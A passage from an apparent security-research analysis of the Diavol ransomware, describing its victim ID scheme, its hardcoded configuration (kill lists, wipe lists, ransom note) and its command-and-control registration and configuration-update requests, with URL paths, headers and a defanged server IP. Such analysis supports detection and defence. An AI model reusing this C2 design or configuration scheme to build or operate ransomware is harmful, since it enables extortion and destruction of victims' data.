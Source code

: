 Figure 6: Diavol’s execution flow for invoking routines from the resource section.


· Create an identifier for the victim:
The GENBOTID routine creates a unique identifier of the infected machine. It is composed of the following:
<NetBIOS_computer_name> + <username> + “_W” + <OS major version in hex> + <OS minor version in hex> + <OS build number in hex> + “.” + <random_GUID_bytes in hex>
· Initialize configuration:
The SHAPELISTS routine copy the hardcoded configuration from the PE’s .data section. The configuration begins with the “STATIC_DATA” string and holds many unicode strings:
- Base64 encoded RSA public key.
- Server address for the initial registration.
- Group ID for the initial registration.
- List of excluded file extensions, file names and paths.
- List of process names to terminate.
- List of service names to stop.
- List of paths to enumerate files.
- List of filenames to delete.
- Ransom note (in reverse).
· Register with the C&C server and update configuration:
The REGISTER payload uses the WinINet API to send a request to a server and returns the response status code. Diavol issues the C&C server a POST request to the hxxp://<server_address>/BnpOnspQwtjCA/register URL with the following headers:
User-Agent: "Agent"
 Content-Type: application/x-www-form-urlencoded; charset=UTF-8
The body of the request is:
cid=<unique_victim_id>&group=<group_id_from_config>ip_local1=111.111.111.111&ip_local2=222.222.222.222&ip_external=2.16.7.12
If the server returns status success, the ransomware will attempt to get an updated configuration from the C&C server. Since the “-s” command-line parameter was not provided, and as the configured address is 127.0.0.1 (localhost), the ransomware didn’t register itself or retrieve configuration updates.
The FROMNET routine sends a request to the server using the WinINet API as well and returns the data from the response. To get an updated configuration and override the hardcoded values, the ransomware sends HTTP GET requests using the same headers as before, to: 
hxxp://173[.]232[.]146[.]118/Bnyar8RsK04ug/<unique_victim_id>/qqq123/<object_name>
The following objects are supported:
- /key - base64 encoded RSA public key.
- /services - list of services to stop.
- /priority - list of paths to scan for files for the first time.
- /ignore - list of file extensions, filenames and paths to exclude.
- /ext - list of file extensions to include.
- /wipe - list of filenames to delete if they are found while enumerating the filesystem.
- /landing - ransomware note.
Inspecting the network traffic to 173.232.146.118 showed that the HTTP Cookie header contains the string “diavol_session”.
 






Figure 7: Network traffic to Diavol’s C&C server.

